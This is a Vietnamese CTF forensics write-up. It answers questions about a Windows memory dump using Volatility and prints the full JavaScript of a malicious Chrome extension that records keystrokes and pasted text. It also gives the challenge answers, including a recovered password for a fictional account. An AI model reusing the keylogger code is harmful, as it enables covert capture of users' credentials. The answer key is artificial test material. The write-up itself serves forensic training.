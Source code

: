 # _Stealth Invasion_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/cf31068e-2c57-45e6-abe8-f1d8833dbef8)

Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã

![image](https://github.com/user-attachments/assets/ad26c248-08be-41ed-b602-34d179c02fcd)

Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist

![image](https://github.com/user-attachments/assets/10ba534a-2020-44ea-8c33-990590845349)

```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop

![image](https://github.com/user-attachments/assets/25810f27-8975-4220-87a4-4612375e4ab3)

```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu

![image](https://github.com/user-attachments/assets/dbe75334-1858-4399-908c-a64496c67b27)


![image](https://github.com/user-attachments/assets/3b20cdbb-2e24-4678-b022-f7158b4ee539)

```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên

![image](https://github.com/user-attachments/assets/b2799f19-cba8-4019-85b4-2e51c9fc0629)

Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com

![image](https://github.com/user-attachments/assets/b9492575-0c8c-4648-9d42-5652e77bb9df)

```
Answer: clip-mummify-proofs
```
